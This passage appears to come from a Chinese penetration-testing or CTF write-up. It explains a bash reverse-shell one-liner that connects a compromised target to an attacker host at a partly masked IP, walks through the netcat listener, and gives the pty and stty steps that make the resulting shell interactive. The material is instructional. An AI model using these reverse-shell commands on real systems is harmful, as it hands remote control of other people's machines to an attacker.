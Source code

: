 ![image-20230304155549885](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304155549885.png)

![image-20230304155757743](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304155757743.png)

拿下！

# 尝试反弹shell：

`bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1`

| 命令                        | 命令详解                                                     |
| :-------------------------- | :----------------------------------------------------------- |
| bash -i                     | 产生一个bash交互环境。                                       |
| >&                          | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。     |
| /dev/tcp/47.xxx.xxx.72/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
| 0>&1                        | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。 |

Bash反弹一句完整的解读过程就是：

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

**攻击机开启本地监听：**

```javascript
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```javascript
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

![image-20230304161132830](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230304161132830.png)

## success!

提升交互性：` python3 -c 'import pty; pty.spawn("/bin/bash")' `

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
```

why?

```
无法使用vim等文本编辑器
不能补全
不能su
没有向上箭头使用历史
```

